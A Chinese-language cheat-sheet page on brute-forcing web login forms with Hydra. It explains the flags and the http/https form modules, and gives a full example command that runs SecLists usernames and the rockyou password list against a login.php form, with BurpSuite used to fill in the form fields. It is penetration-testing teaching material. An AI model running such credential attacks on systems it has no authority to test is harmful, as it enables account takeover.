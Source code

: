 ```yaml
---
description: 密码爆破
---
```


# ✔️ Hydra

## 通用格式

* **hydra \[-l 用户名/-L 用户名列表] \[-p 密码/-P 密码列表] -u -f \[目标IP地址/域名] \[-s 端口号] \[模块] "/login.php:username=^USER^\&password=^PASS^:F=\<form name='login' "**
  * \-u：要尝试每一个密码的每一个用户名（遍历用户名列表&密码列表）
  * \-f：找到第一个匹配项就立刻停止
  * 模块：视具体情况而定
  * "/login.php:username=^USER^\&password=^PASS^:F=\<form name='login' "：此处常用于针对Web应用的登录界面的具体规则指定，需要结合BurpSuite以及查看源码来指定

## &#x20;单独使用进行爆破

*









### 组合使用进行爆破（Hydra + BurpSuite）

* 常针对Web应用程序的登录界面 (HTTP / HTTPS)
* 常用模块：
  * **http-form-post**：用于破解基于 HTTP POST 表单的认证。通常用于网站登录页面的暴力破解。
  * **https-form-post**：与 http-form-post 类似，但针对 HTTPS 协议的表单认证。
  * **http-form-get**：用于破解基于 HTTP GET 表单的认证。
  * **https-form-get**：与 http-form-get 类似，但针对 HTTPS 协议的表单认证。
  * **https-post-form**：与 http-post-form 类似，但针对 HTTPS 协议

#### **http-post-form**：

* 用于执行更复杂的 HTTP POST 表单暴力破解，常用于需要多步验证或自定义表单参数的情况。

```bash
# 实例
hydra -L /usr/share/SecLists/Usernames/top-usernames-shortlist.txt -P /usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt -u -f 192.168.xxx.xx -s 8080 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"
```

* \`/login.php:username=^USER^\&password=^PASS^\`：此处需要使用BurpSuite拦截表单请求，根据实际情况进行修改
* \`F=\<form name='login' \`：此处需要查看源码中表达实际的名称进行修改

